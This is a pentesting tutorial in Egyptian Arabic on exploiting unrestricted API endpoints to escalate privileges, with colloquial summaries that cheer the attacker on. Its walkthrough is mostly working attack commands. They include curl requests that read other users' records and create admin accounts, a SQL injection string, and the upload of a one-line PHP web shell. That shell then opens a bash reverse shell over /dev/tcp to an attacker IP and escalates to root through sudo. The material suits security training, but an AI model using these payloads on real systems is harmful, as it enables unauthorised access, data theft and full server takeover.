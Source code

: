 # **1. إيه هو Unrestricted API Endpoints Leading to Privilege Escalation؟**

## **الشرح العميق:**
"Unrestricted API Endpoints" يعني إن نقاط النهاية (Endpoints) في واجهة برمجة التطبيقات (API) بتاعة موقع أو تطبيق مفتوحة بدون قيود كافية، يعني أي حد يقدر يستخدمها من غير ما يتأكد من صلاحياته. الـ API هو اللي بيخلّي التطبيق يتواصل مع السيرفر (زي طلب بيانات أو تعديل حاجة)، ولما تكون "Unrestricted"، المستخدم العادي يقدر يوصل لصلاحيات أعلى (Privilege Escalation) سواء أفقي (Horizontal) أو عمودي (Vertical). ده بيحصل لما:
- مافيش تحقق من هوية المستخدم أو دوره (Role).
- الـ Endpoint بيسمح بتعديل بيانات أو تنفيذ أوامر المفروض تكون للأدمن بس.
- سوء تصميم أو إعدادات ضعيفة.

## **الأدوات والأوامر العملية:**
### 1. **فحص الـ API يدويًا:**
   - لو لقيت طلب زي: `GET http://target.com/api/users/123`.
   - جرب: `GET http://target.com/api/users/1` -> لو جاب بيانات الأدمن، يبقى unrestricted.

### 2. **اختبار بـ curl:**
   - `curl -X GET http://target.com/api/admin/settings -H "Authorization: Bearer <user_token>"`.
   - لو رجع بيانات لمستخدم عادي، يبقى مفتوح.

### 3. **استخدام Burp Suite:**
   - Intercept طلبات الـ API -> جرب تغير الـ Endpoint من `/api/user` لـ `/api/admin`.

## **خلاصة بالعامية المصرية:**
"يعني زي ما تكون حاطط كشك في الشارع بيبيع حاجات VIP، بس أي حد يقدر يخش ياخد من غير ما حد يسأله! Unrestricted API يعني الباب مفتوح للكل يلعب ويطلع الكبير."

---

# **2. ليه المشكلة دي خطيرة؟**

## **الشرح العميق:**
الـ Endpoints المفتوحة دي خطيرة لأنها بتدي المهاجم وصول لأماكن أو صلاحيات المفروض تكون مقفولة، وده بيؤدي ل:
- **تصعيد أفقي:** مستخدم عادي يشوف أو يعدل بيانات مستخدم تاني.
- **تصعيد عمودي:** يوصل لصلاحيات Admin أو يتحكم في النظام كله.
- **سرقة بيانات:** ياخد معلومات حساسة زي كلمات سر أو بيانات عملاء.
- **تنفيذ أوامر:** لو الـ Endpoint بيسمح، يقدر يرفع Shell أو يخرب النظام.

في الـ Pentesting، الثغرة دي كنز لأنها بتخليك تتحرك بحرية وتصعد صلاحياتك بسهولة لو لقيت Endpoint ضعيف.

## **الأدوات والأوامر العملية:**
### 1. **استغلال تصعيد أفقي:**
   - `curl -X GET http://target.com/api/users/999 -H "Cookie: session=<user_session>"`.
   - لو جاب بيانات مستخدم تاني، يبقى مفتوح.

### 2. **استغلال تصعيد عمودي:**
   - `curl -X POST http://target.com/api/admin/users -d '{"username":"hacker","role":"admin"}' -H "Cookie: session=<user_session>"`.
   - لو أضاف حساب Admin، يبقى unrestricted.

### 3. **SQL Injection في API:**
   - `curl -X GET "http://target.com/api/user?id=1; SELECT * FROM users --"`.
   - لو جاب بيانات زيادة، يبقى مكشوف.

## **خلاصة بالعامية المصرية:**
"المشكلة خطيرة لأنها زي ما تكون سايب مكتب المدير مفتوح وأي حد يقدر يخش يتحكم! المهاجم يلاقي الـ API مفتوح، يبقى الباشا بتاع الموقع على طول."

---

# **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم الـ Endpoints المفتوحة عشان تتجاوز القيود، تسرق بيانات، أو تصعد صلاحياتك للتحكم الكامل.
- **مثال واقعي:** لو لقيت Endpoint بيسمح لمستخدم عادي يضيف Admin، تستخدمه عشان تبقى الكبير.

## **خلاصة بالعامية المصرية:**
"لما تلاقي الـ API مفتوح، زي ما تكون لقيت كنز في لعبة، تستخدمه عشان تكسب وتبقى الكبير بتاع الماتش من غير تعب!"

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29.

## **الخطوة 2: اكتشاف الـ API**
- ابحث عن الـ API:
  - `curl -I http://192.168.1.10/api/` -> لو `200 OK`، يبقى موجود.
- بـ Gobuster:
  - `gobuster dir -u http://192.168.1.10 -w /usr/share/wordlists/dirb/common.txt -x php,json` -> ابحث عن `/api`.

## **الخطوة 3: اختبار الـ Endpoints**
- لو لقيت حساب User:
  - خد الـ Session Token من Cookie أو Header.
- جرب Endpoints:
  - `curl -X GET http://192.168.1.10/api/users/1 -H "Authorization: Bearer <user_token>"`.
  - لو جاب بيانات الأدمن، يبقى unrestricted.

## **الخطوة 4: استغلال أفقي**
- `curl -X GET http://192.168.1.10/api/users/999 -H "Authorization: Bearer <user_token>"`.
- لو جاب بيانات مستخدم تاني، سجلها (زي كلمة سر).

## **الخطوة 5: استغلال عمودي**
- جرب تعديل صلاحيات:
  - `curl -X POST http://192.168.1.10/api/users -d '{"id":1,"role":"admin"}' -H "Authorization: Bearer <user_token>"`.
  - لو نجح، سجل دخول كـ Admin.
- لو فيه Upload:
  - `curl -X POST http://192.168.1.10/api/upload -F "file=@shell.php" -H "Authorization: Bearer <user_token>"`.
  - `shell.php`: `<?php system($_GET['cmd']); ?>`.
  - افتح: `http://192.168.1.10/uploads/shell.php?cmd=id` -> `www-data`.

## **الخطوة 6: تصعيد الصلاحيات**
- من الـ Shell:
  - `http://192.168.1.10/uploads/shell.php?cmd=/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell.
  - `id` -> `www-data` -> `sudo -l` -> لو لقيت `sudo /bin/bash`، نفذه -> `root`.

## **الخطوة 7: توثيق**
- سجل الـ Endpoints اللي لقيتها مفتوحة (زي `/api/users`).
- قدم تقرير يوضح إزاي الـ API فتح الباب للتصعيد.

## **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت كشك مفتوح في الشارع، خدت منه كل حاجة، وطلعت الكبير بتاع الحتة! الـ API لما يكون مفتوح، يبقى طريقك للفوز بسهولة."

---

# **الخلاصة النهائية:**
Unrestricted API Endpoints هي ثغرة كبيرة لأنها بتخلّي أي مستخدم يوصل لصلاحيات أعلى من غير قيود. في الـ Pentesting، دور عليها بـ curl أو Burp، استغلها عشان تسرق بيانات، تضيف صلاحيات، أو تاخد Shell، ووري العميل إن نظامه زي بيت مفتوح للكل! بالطريقة دي، تبقى البطل بتاع اللعبة بكل سهولة!